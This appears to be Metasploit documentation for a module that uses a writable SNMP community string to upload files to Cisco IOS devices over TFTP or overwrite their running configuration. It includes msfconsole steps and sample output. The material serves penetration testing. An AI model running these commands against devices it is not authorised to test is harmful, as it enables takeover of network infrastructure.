 ## Vulnerable Application

  Cisco IOS devices can be configured to retrieve, via tftp,  a file via SNMP.
  This is a well [documented](https://www.cisco.com/c/en/us/support/docs/ip/simple-network-management-protocol-snmp/15217-copy-configs-snmp.html#copying_startup)
  feature of IOS and many other networking devices, and is part of an administrator functionality.
  This functionality can also be used to change their running configuration. This is documented [here](https://www.ciscozine.com/send-cisco-commands-via-snmp/). 
  A read-write community string is required, as well as a tftp server (metasploit includes one).
  The default functionality of the module will upload the file and it will be saved to `flash:`.
  The `Override_Config` action will override the running configuration of the device and the file will not be saved.

## Verification Steps

Upload_File (Default Action)

  1. Enable SNMP with a read/write community string on IOS: `snmp-server community private rw`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/snmp/cisco_upload_file```
  4. Do: ```set COMMUNITY [read-write snmp]```
  5. Do: ```set lhost [your IP address]```
  6. Do: ```set rhosts [ip]```
  7. Do: ```set source [file]```
  8. Do: ```run```
  
Override_Config

  1. Enable SNMP with a read/write community string on IOS: `snmp-server community private rw`
  2. Start msfconsole
  3. Do: ```use auxiliary/scanner/snmp/cisco_upload_file```
  4. Do: ```set COMMUNITY [read-write snmp]```
  5. Do: ```set lhost [your IP address]```
  6. Do: ```set rhosts [ip]```
  7. Do: ```set source [file]```
  8. Do: ```set action [Override_Config]```
  9. Do: ```run```
  10. You can **Verify** that the running config has been overridden by using the **auxiliary/scanner/snmp/cisco_config_tftp** module to download the current running config from the device.

## Options

  **COMMUNITY**

  The SNMP community string to use which must be read-write.  Default is `public`.

  **SOURCE**

  The location of the source file to be uploaded to the Cisco device.

## Scenarios

### Cisco UC520-8U-4FXO-K9 running IOS 12.4

```
msf > setg rhosts 2.2.2.2
rhosts => 2.2.2.2
msf > use auxiliary/scanner/snmp/cisco_upload_file
msf auxiliary(scanner/snmp/cisco_upload_file) > set source /tmp/backup_config2
source => /tmp/backup_config2
msf auxiliary(scanner/snmp/cisco_upload_file) > set community private
community => private
msf auxiliary(scanner/snmp/cisco_upload_file) > run

[*] Starting TFTP server...
[*] Copying file backup_config2 to 2.2.2.2...
[*] Scanned 1 of 1 hosts (100% complete)
[*] Providing some time for transfers to complete...
[*] Shutting down the TFTP service...
[*] Auxiliary module execution completed
```
### Cisco 3560G switch running IOS 12.2

```

`msf auxiliary(scanner/snmp/cisco_upload_file) > set COMMUNITY private`
`COMMUNITY => private`
`msf auxiliary(scanner/snmp/cisco_upload_file) > set LHOST 10.20.164.164`
`LHOST => 10.20.164.164`
`msf auxiliary(scanner/snmp/cisco_upload_file) > set action Override_Config`
`action => Override_Config`
`msf auxiliary(scanner/snmp/cisco_upload_file) > set rhosts 10.20.205.5`
`rhosts => 10.20.205.5`
`msf auxiliary(scanner/snmp/cisco_upload_file) > set source /root/Desktop/newconfig`
`source => /root/Desktop/newconfig`
`msf auxiliary(scanner/snmp/cisco_upload_file) > run`

`[*] Starting TFTP server...`
`[*] Copying file newconfig to 10.20.205.5...`
`[*] Scanned 1 of 1 hosts (100% complete)`
`[*] Providing some time for transfers to complete...`
`[*] Shutting down the TFTP service...`
`[*] Auxiliary module execution completed`

```
